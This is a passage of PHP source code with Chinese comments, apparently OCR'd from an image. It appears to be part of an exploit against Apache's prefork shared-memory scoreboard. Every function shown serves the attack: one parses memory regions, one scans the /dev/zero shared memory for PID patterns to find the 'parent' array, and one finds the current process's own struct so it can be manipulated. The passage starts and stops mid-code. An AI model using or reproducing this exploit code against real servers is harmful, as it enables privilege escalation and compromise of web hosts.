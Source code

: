                 $result[$result_index][0] = hexdec($start_addr_str);
                $result[$result_index][1] = hexdec($end_addr_str);
                $result[$result_index][2] = substr($line,$addr_len*2+2,4);
                $result_index++;
            }
        }
        fclose($file);

        return $result;
    }


    function locate_parent_arr_addr()//获取共享内存中，parent数组的首地址
    {
        $my_pid = getmypid();
        $shm_region = get_mem_region("/dev/zero");
        if(!count($shm_region))
            return 0;

        //parent数组项的大小是，每个0x20个字节
        //pid_t在我环境中，大小4字节
        $pid_t_size = 4;
        $parent_size = 0x24;

        //只检查共享内存的前0x1000字节(4KB)
        for($i = 0;$i<0x1000;$i++){
            $hit_count = 0;
            for($j = 0;$j<5;$j++){//循环次数，请参考httpd-mpm.conf中的prefork的MinSpareServers
                $pid = read_mem_dword($shm_region[0][0]+ $i + $j*$parent_size);
                if( $my_pid - 20 < $pid && $pid < $my_pid+20){//因为prefork中，进程的pid是紧挨的，我们可以通过这个来判断是否是parent数组的首地址
                    $hit_count++;    
                }
            }
            if($hit_count == 5){
                return $shm_region[0][0]+$i;
            }
        }


        return 0;
    }



    function locate_self_parent_struct_addr()//获取共享内存中，当前parent的首地址
    {
        $my_pid = getmypid();
        $shm_region = get_mem_region("/dev/zero");
        if(!count($shm_region))
            return 0;
        //因为parent数组，总是位于第一个/dev/zero中，所以，我们只搜索第一个
        echo "/dev/zero start addr:0x".dechex($shm_region[0][0])."\n";
        echo "/dev/zero end addr:0x".dechex($shm_region[0][1])."\n";


        for($i =0;$i<4096;$i++){
            $pid = read_mem_dword($shm_region[0][0]+$i);//pid_t在我的环境中，为4字节大小
            if($pid == $my_pid){
                return $shm_region[0][0]+$i;//找到直接返回
            }
        }
